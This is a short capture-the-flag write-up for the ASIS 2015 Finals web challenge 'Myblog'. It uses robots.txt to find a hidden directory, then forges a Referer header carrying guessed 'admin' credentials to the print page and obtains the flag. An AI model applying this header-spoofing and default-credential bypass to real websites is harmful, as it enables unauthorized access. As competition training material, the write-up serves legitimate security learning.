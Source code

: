 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (web150) Myblog"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by one of my teammates, nguyen*

<http://myblog.asis-ctf.ir:8088/robots.txt>
{% highlight text %}
User-agent: *
Disallow: /myblog_private_dir3ct0ry
{% endhighlight %}

From printing feature you can see the page by sending the correct referer header.
Referer: <http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/>

{% highlight http %}
GET /printpage.php?id=2417648298 HTTP/1.1
Host: myblog.asis-ctf.ir:8088
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:41.0) Gecko/20100101 Firefox/41.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin
Connection: keep-alive
{% endhighlight %}

After some combinations of commons params name I decided to send them all

Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin&login=admin&user=admin

And I got this pdf has flag:
{% highlight text %}
ASIS{9c846eab5200c267cb593437780caa4d}
{% endhighlight %}